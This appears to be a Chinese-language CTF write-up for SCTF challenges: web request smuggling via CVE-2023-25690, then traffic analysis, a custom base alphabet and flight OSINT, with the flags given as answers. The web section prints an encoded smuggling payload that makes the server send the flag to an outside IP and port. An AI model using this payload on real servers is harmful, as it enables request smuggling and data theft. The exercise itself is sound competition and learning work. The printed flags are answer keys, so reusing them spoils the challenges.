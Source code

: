 # SCTF

## WEB

### ezcheck1n

#### 题目信息

```
find the way to flag.Looks like there are two containers with an evil P in the configuration file of the frontend server
```

#### 解题过程

CVE-2023-25690 Apache HTTP Server 

[dhmosfunk/CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)

直接用payload打就好

![image-20230706154641052](img/SCTF/image-20230706154641052.png)

这里有个2023.php，然后还说现在不是2023年，按其他年份的php文件去读取flag（这一步怪怪的）

反弹shell

```
/2023/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/2022.php%3furl%3d112.74.99.156:9663/?flag=
```

![image-20230706154724100](img/SCTF/image-20230706154724100.png)



## MISC

### checkin

010直接硬改

![image-20230706112924742](img/SCTF/image-20230706112924742.png)

解压出来直接拉进去就有

![image-20230706112932905](img/SCTF/image-20230706112932905.png)

### Genshin Impact

#### 题目信息

```
VanZY被逮到在实验室打原神，看到白哥进来，立马关上了电脑，白哥用黑客技术打开了他的电脑，然而桌面上只留下了一个流量包，白哥不会看流量包，你能帮他看看吗
```

#### 解题过程

流量里面有视频，图片，提取出来发现修复不了，然后看其他的流量。

追踪流量，可以看到tcp.stream eq 1有个png

![image-20230706153549672](img/SCTF/image-20230706153549672.png)

搜一下，是b站一个视频，然后找uid

```
就你小子米游社uid是Rd/xRtmqSdit是吧
```

流量包这里有个字母表解密，最后面的0不要加上去。

```
3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5
```

base换表

![image-20230706154039176](img/SCTF/image-20230706154039176.png)

找到ip，然后去社区找用户

https://www.miyoushe.com/ys/accountCenter/postList?id=197370563

得到flag

![image-20230706113358553](img/SCTF/image-20230706113358553.png)

```
SCTF{yu4nsh3n_q1d0ng!Genshin_impact_start!}
```





### Fly over the Fuchun River

#### 题目信息

```
开玩笑吗
Rapper坐在经济舱
面子伤不伤
我说这是通往成功的方向
图片拍摄于4月的某一天的12：15分(UTC+8)
flag格式
SCTF{起飞机场缩写_落地机场缩写_飞机航班号_日期}（全部大写）
日期格式：
6月17日写作617
```

#### 解题过程

这种题目在ctfshow经常可以看到，通过飞机信息，光照啥的，找航线，日期。

时间4月，中午，天气为阴天。

放大看，B-32DC

![image-20230706111206496](img/SCTF/image-20230706111206496.png)

https://flightaware.com/live/flight/B32DC

网站找相对应的飞机，然后看4月的航班，然后筛选时间，这里有12：15，先排除在这个之外的。

![image-20230706112124516](img/SCTF/image-20230706112124516.png)

![image-20230706112231736](img/SCTF/image-20230706112231736.png)

这样大致就只有几个航班符号，然后点击去看。（当然在打比赛没限制flag次数直接交就好）

```
SCTF{起飞机场缩写_落地机场缩写_飞机航班号_日期}（全部大写）
日期格式：
6月17日写作617
SCTF{GTU_HGH_UEA2259_413}
SCTF{GTU_HGH_UEA2259_421}
```

![image-20230706112547462](img/SCTF/image-20230706112547462.png)

![image-20230706112638689](img/SCTF/image-20230706112638689.png)

最后flag是

```
SCTF{GTU_HGH_UEA2259_413}
```


